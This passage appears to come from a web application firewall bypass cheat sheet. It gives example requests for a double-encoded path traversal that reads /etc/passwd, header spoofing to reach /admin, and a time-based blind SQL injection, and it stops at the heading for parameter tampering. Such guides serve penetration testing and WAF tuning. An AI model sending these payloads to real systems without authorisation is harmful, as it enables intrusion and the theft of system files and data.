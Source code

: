 ## 8. Path Traversal with Double Encoding

**How to do it:**  
Use double encoding to bypass WAF rules that only check for single-encoded sequences.

**Blocked original request:**
```bash
GET /../../etc/passwd
```

**Updated with double encoding:**
```bash
GET /%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

## 9. Customizing User-Agent or Referrer Headers

**How to do it:**  
Modify the User-Agent or Referrer header to bypass WAF rules that may apply different rules based on these headers.

**Blocked original request:**
```bash
GET /admin HTTP/1.1
User-Agent: NormalBrowser
```

**Updated with a custom User-Agent:**
```bash
GET /admin HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
```

## 10. Time-based SQL Injection (Blind SQL Injection)

**How to do it:**  
Use time delays in SQL injection to infer information from the database without directly retrieving data.

**Blocked original request:**
```bash
GET /search?q=' OR 1=1; --
```

**Updated with time-based SQL injection:**
```bash
GET /search?q='; IF (1=1) WAITFOR DELAY '00:00:05'; --
```

## 11. HTTP Parameter Tampering

**How to do it:**  
Modify parameters in HTTP requests, particularly POST requests, to bypass WAF rules focused on GET requests.
